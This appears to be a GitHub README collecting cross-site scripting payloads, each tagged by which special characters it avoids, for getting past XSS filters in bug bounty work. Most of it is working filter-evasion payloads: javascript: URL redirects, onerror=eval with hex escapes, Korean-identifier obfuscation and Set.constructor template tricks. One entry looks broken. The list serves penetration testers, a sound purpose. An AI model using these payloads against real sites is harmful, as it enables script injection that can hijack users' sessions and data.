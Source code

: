 What is XSS Payload without Anything
When I work for a company or bug bounty, the unexpected hurdle is a protection(xss filter) of special char in the JS(Javascript) area. So I am devising a way to easily solve these problems, and one of the processes is this document.

Let's collect a lot of thoughts and solve our problems.

Concept
It is similar to "Payload all the things" in terms of collecting the payload, but I want to provide a list of payloads with special tag (without char, used char, other..) I plan to make it easy to search and to show what characters (or what they are made of) are unusable.

format
without char: () , '

XSS Payloads

without char (Frequently filtered characters)
I have selected special characters that are often blocked.

( ) 
{ } 
, 
"
'
`
[ ]
\ 
/ 
; 
+ 
. 
=


(template): () {} , " ' backtick [] \ / ; + . =

Usage
on Github.com

Awesome payload
coming soon

Archive

without char: () , " backtick \ / [] {} .
location='JaVaScRiPt:prompt'+document.location.hash[1]+'45'+document.location.hash[2]
without char: () {} , " backtick [] / + .
onerror=eval;throw'alert\x2845\x29';
without char: !backtick
prompt`45`
without char: () {} , " backtick``[] / ; + .
location='javaScriPt:alert\x2845\x29'
without char: " backtick \ / ; .
([,하,,,,훌]=[]+{},[한,글,페,이,,로,드,ㅋ,,,ㅎ]=[!!하]+!하+하.ㅁ)[훌+=하+ㅎ+ㅋ+한+글+페+훌+한+하+글][훌](로+드+이+글+한+'(45)')()
without char: {} , " ' backtick \ / ; + =
[45].some.alert()
without char: () {} , " ' [] \ / ; + =
Set.constructor`alert\x2845\x29`


